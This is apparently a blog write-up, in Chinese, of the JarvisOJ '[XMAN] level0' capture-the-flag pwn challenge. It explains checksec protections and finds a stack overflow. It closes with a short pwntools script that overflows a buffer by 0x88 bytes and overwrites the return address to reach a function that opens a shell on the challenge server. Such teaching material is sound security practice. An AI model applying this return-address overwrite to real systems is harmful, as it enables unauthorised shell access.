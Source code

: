 ```yaml
---
title: XMAN level0 の Write-Up
date: 2020-05-01 17:40:33
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- XMAN
- Stack
---
```

## Introduction

这是JarvisOJ的PWN题部分[XMAN]level0的Write-Up，也是第一次尝试PWN题，这题比较简单，就是简单的栈溢出覆盖返回地址，很适合刚上手的Rookie（比如我==）。

<!-- more -->

## Step 1

首先checksec一下程序：

![](/img/XMAN-level0/XMAN1.png)

checksec是检查程序是否打开或关闭某些保护机制的一个脚本。相关参数意义为：

* RELRO：RELRO会有Partial RELRO和FULL RELRO，如果开启FULL RELRO，意味着我们无法修改got表；

* Stack：如果栈中开启Canary found，那么就不能用直接用溢出的方法覆盖栈中返回地址，而且要通过改写指针与局部变量、leak canary、overwrite canary的方法来绕过；

* NX：NX enabled表示这个保护开启，意味着栈中数据没有执行权限，以前的经常用的call esp或者jmp esp的方法就不能使用，但是可以利用ROP这种方法绕过；

* PIE：enabled表示启用内存布局随机化，如果程序开启这个地址随机化选项就意味着程序每次运行的时候地址都会变化，而如果没有开PIE的话那么No PIE (0x400000)，括号内的数据就是程序的基地址；

* FORTIFY：FORTIFY_SOURCE机制对格式化字符串有两个限制：(1)包含%n的格式化字符串不能位于程序内存中的可写地址；(2)当使用位置参数时，必须使用范围内的所有参数。所以如果要使用%7$x，你必须同时使用1,2,3,4,5和6。

运行程序如下图所示：

![](/img/XMAN-level0/XMAN2.png)

## Step 2

把程序拖到Hopper Disassambler中看下伪C代码：

![](/img/XMAN-level0/XMAN3.png)

函数中有个非常明显的vulnerable_function函数，明确的告诉我们存在漏洞，看下代码果然存在栈溢出漏洞。

然后还看到一个callsystem函数，在函数中调用了shell：

![](/img/XMAN-level0/XMAN4.png)

这样思路就很简单了，通过vulnerable_function函数的栈溢出覆盖返回地址，跳转到callsystem函数入口调出shell。

## Step 3

由vulnerable_function函数可以发现buffer到rbp的距离为0x80字节，加上0x08字节的rbp（64位程序中rbp为8字节，32位程序中为4字节），这样就可以得到vulnerable_function函数的返回地址了，然后把这个返回地址覆盖为callsystem函数的入口地址即可：

![](/img/XMAN-level0/XMAN5.png)

## Appendix

EXP代码:

```Python
from pwn import *

#sh = process('./level0')
sh = remote('pwn2.jarvisoj.com', 9881)

elf = ELF('./level0')

shell_addr = elf.symbols['callsystem']

payload = 'a' * (0x80 + 0x8) + p64(shell_addr)

sh.send(payload)

sh.interactive()
sh.close()
```